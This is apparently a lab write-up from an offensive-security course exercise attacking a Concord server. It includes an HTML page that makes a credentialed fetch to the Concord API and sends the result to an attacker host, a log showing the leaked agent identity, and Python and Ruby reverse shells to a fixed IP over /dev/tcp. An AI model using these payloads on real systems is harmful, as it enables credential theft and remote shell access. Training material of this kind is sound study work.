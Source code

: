 ```yaml
	      catch (Exception e){
	      }
	    };
	    p.destroy();
	    s.close();
```

We also develop a HTML page to deliver the payload. When we run a HTTP server and visit the page, we receive a`UserNotLoggedIn` message. 

```html
<html>
<head>
<script>
fetch("http://concord:8001/api/service/console/whoami", {
	credentials: 'include'
})
.then(async (response) => {
	if(response.status != 401){
	let data = await response.text();
		fetch("http://<LHOST>/?msg=" + data )
	}else{
		fetch("http://<LHOST>/?msg=UserNotLoggedIn" )
	}
})
</script>
</head>
 
<body>
</body>
</html>
```

We can use the `debugger` lab host to simulate a logged-in request. We launch the debugger lab, RDP to the Kali debugger and visit `http://simulator`. Submitting our Kali IP address, we get the following log.

```
192.168.220.253 - - [09/Jun/2024 21:12:46] "GET /?msg={%20%20%22realm%22%20:%20%22apikey%22,%20%20%22username%22%20:%20%22concordAgent%22,%20%20%22displayName%22%20:%20%22concordAgent%22} HTTP/1.1" 200 -

Decoding: {"realm" : "apikey",  "username" : "concordAgent",  "displayName" : "concordAgent"}
```

## Exercises 11.2.5.1

Build Payloads in Python and Ruby. Note that in this context, we need a reverse shell that spawns a **separate** process so that the main process can be terminated without affecting the reverse shell. As such, we’ll use `python.subprocess` and Ruby’s `spawn` and`process.wait` with an OS-based reverse shell for our payload. 

```python
cmd = "/bin/bash -i >& /dev/tcp/192.168.45.187/9001 0>&1"
import subprocess
subprocess.call(cmd, shell=True)
```

```ruby
cmd = "/bin/bash -i >& /dev/tcp/192.168.45.187/9001 0>&1"
pid = spawn(cmd)
Process.wait pid
```